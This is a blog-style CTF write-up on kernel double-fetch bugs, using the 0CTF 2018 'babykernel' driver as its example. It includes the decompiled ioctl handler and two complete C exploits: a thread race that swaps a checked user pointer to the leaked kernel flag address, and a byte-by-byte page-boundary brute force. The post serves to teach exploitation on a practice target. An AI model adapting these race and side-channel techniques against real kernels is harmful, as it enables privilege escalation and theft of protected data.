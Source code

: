 ```yaml
---
title: "Introduction of Kernel Pwn: Double Fetch"
date: 2022-05-19 17:52:21
tags: 
layout: post
---
```


# 0x00 Prologue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 Double Fetch

![Double Fetch from CTF-Wiki](/Figures/Kernel/double-fetch.png)

Double fetch is a kind of race condition. In most situations, the kernel would get the data from user space by `copy_from_user`. But while dealing with complex data structures, the kernel read the data from userspace by a pointer. So there is a race condition:
```c
kernel  : get the data and perform some check
user   : change the data
kernel  : perform options to the data
```

# 0x02 Double Fetch Attack

[attachment][2]
According to its start script, it's a multi-process challenge. There is only one function in the device:
```c
__int64 __fastcall domain(__int64 a1, int a2, node *a3)
{
  int i; // [rsp+1Ch] [rbp-54h]

  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    return 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok((__int64)a3, 16LL)
         && !_chk_range_not_ok((__int64)a3->ptr, a3->len)
         && a3->len == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( a3->ptr[i] != flag[i] )
        return 22LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    return 0LL;
  }
  else
  {
    return 14LL;
  }
}
```
The function could leak the address of the flag. And We are asked to give a struct that includes a pointer and an inter which represent its length. Before comparing the given string and the true flag, the program checks if the given address is in the current task's mem space, which means we can't provide the address of the real flag to bypass the comparison. However, we can use `double fetch` to bypass the check and comparison because there is no synchronization to avoid race conditions.

The basic idea is 
- Brute force the length of the real flag
- Create a thread to send a valid payload
- The main thread keeps modifying the ptr to point to the real flag
- Stop when returning 0

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int flag = 0;
size_t addr = 0;
void atk_func(void* p)
{   
    struct node *tmp = p;
    while(!flag)
        tmp->ptr = addr;    
}

int main()
{
    f = open("/dev/baby",2);
    ioctl(f,0x6666,0);
    system("dmesg > ./log");
    int log = open("./log",0);
    lseek(log,-58,SEEK_END);
    char buf[0x1000]={0};
    read(log,buf,0x10);
    puts(buf);
    addr = 0;
    
    for(int i =0; i<0x10;i++)
    {
        uint8_t tmp = buf[i]-'0';
        if(tmp>9)
        {
            tmp= buf[i]- 0x61+0xa;
        }
        addr+= tmp;
        if(i==0xf)
            break;
        addr = addr<<4;  
    }
    printf("%p\n",addr);
    para.ptr = buf;
    para.len = 33;
    pthread_t tid;
    pthread_create(&tid,NULL,atk_func,&para);
    int res =0;
    for(int i=0;i<0x10000;i++){
        res = ioctl(f,0x1337,&para);
        para.ptr = buf;
        if(!res)
            break;
    }
    flag=1;
    pthread_join(tid,NULL);
    system("dmesg | grep flag{");
}
```
# 0x03 SileChannel Attack
Also, the device would compare the string byte by byte so that we can place our payload at the end of the page to brute force the password byte by byte. 

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int main()
{
    f = open("/dev/baby",2);
    struct node n132;
    n132.len = 33;
    char * mem = mmap(0x132000,0x1000,7,0x21,0,0);

    size_t res = 0;
    char *target = "flag{T";
    memcpy(mem+0xfff-strlen(target),target,strlen(target));
    n132.ptr = mem+0xfff-strlen(target);
    for(int i=0;i<0x100;i++){
        mem[0xfff] = i;
        printf("%c\n",i);
        res = ioctl(f,0x1337,&n132);
    }
    
}
```
# 0x04 Summary

These two tricks could be used on kernel string comparison challenges.

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/0CTF_2018/babykernel
